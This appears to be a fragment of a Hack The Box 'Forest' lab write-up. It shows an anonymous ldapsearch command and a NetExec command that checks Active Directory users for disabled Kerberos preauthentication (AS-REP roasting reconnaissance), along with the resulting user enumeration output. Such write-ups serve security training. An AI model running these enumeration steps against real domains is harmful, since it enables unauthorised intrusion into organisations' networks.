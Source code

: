 ### ldapsearch

> *ldapsearch opens a connection to an LDAP server, binds, and performs a search using specified parameters.*

```bash
# Format
ldapsearch -x -H ldap://10.10.10.161 -D '' -w '' -b "DC=htb>,DC=local"
```

### NetExec Method

[NetExec](https://www.netexec.wiki/ldap-protocol/asreproast) has a module that you can use to check users who have the `Do not require Kerberos preauthentication` property enabled. 

```bash
➜  nxc ldap 10.10.10.161 -u users.txt -p '' -k -d htb.local --kdcHost FOREST.htb.local
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.10.10.161    389    FOREST           [-] htb.local\Administrator: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\Guest: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\krbtgt: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\DefaultAccount: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\$331000-VK4ADACQNUCA: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_2c8eef0a09b545acb: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_ca8c2ed5bdab4dc9b: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_75a538d3025e4db9a: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_681f53d4942840e18: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_1b41c9286325456bb: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_9b69f1b9d2cc45549: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_7c96b981967141ebb: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_c75ee099d0a64c91b: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\SM_1ffab36a2f5f479cb: KDC_ERR_CLIENT_REVOKED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailboxc3d7722: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailboxfc9daad: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailboxc0a90c9: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailbox670628e: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailbox968e74d: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailbox6ded678: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailbox83d6781: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailboxfd87238: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailboxb01ac64: KDC_ERR_PREAUTH_FAILED
LDAP        10.10.10.161    389    FOREST           [-] htb.local\HealthMailbox7108a4e: KDC_ERR_PREAUTH_FAILED
```